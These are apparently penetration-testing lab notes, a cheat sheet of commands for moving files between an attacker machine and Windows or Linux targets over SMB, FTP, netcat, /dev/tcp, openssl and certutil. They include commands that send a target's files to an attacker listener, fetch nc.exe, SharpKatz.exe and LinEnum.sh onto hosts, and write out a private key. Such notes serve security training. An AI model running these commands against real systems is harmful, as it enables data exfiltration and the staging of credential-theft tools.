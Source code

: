 Decode a base64 input and write it into a file.

     [IO.File]::WriteAllBytes("C:\Users\Public\id_rsa", [Convert]::FromBase64String("LS0tLS1[...]URSBLRVktLS0tLQo="))

## SMB Server 
Create a SMB server with impacket in linux 

    sudo impacket-smbserver share -smb2support /tmp/smbshare

Download files in windows using this command 

    copy \\192.168.220.133\share\nc.exe

Sometimes newer version of windows block unauthenticated users, so we can add username and password to the server

    sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
In Windows: 

    net use n: \\192.168.220.133\share /user:test test

# FTP server 

In Linux using python creating an FTP server as follows : 

    sudo pip3 install pyftpdlib
    sudo python3 -m pyftpdlib --port 21

Transferring files with Windows powershell:

    (New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
in Windows 
with powershell 

    PS C:\htb> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')

With CMD 
    C:\htb> echo open 192.168.49.128 > ftpcommand.txt
    C:\htb> echo USER anonymous >> ftpcommand.txt
    C:\htb> echo binary >> ftpcommand.txt
    C:\htb> echo GET file.txt >> ftpcommand.txt
    C:\htb> echo bye >> ftpcommand.txt
    C:\htb> ftp -v -n -s:ftpcommand.txt
    ftp> open 192.168.49.128
    Log in with USER and PASS first.
    ftp> USER anonymous

    ftp> GET file.txt
    ftp> bye

    C:\htb>more file.txt
    This is a test file

# NetCat
Another method from Windows to Linux is to use netcat 
In linux create nc 

    nc -nlcp 8000

and send a post method with the base64 files as a body with windows

    PS C:\htb> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))

    PS C:\htb> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64

    $ echo <base64> | base64 -d -w 0 > hosts

Send a file over nc 

    nc -q 0 192.168.49.128 8000 < SharpKatz.exe

to receive it 

    nc -l -p 8000 > SharpKatz.exe

or another method, send with nc

    sudo nc -l -p 443 -q 0 < SharpKatz.exe


Receive it with /dev/tcp

    cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe

## XFREERDP
to mount a file 
    
    xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
## OPENSSL

Create server with openssl 

    openssl s_server -quiet -accept 80 -cert certificate.pem -key key.pem < /tmp/LinEnum.sh

to download the file 

    MysterPedro@htb[/htb]$ openssl s_client -connect 10.10.10.32:80 -quiet > LinEnum.sh

## Using certutil 

    certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe

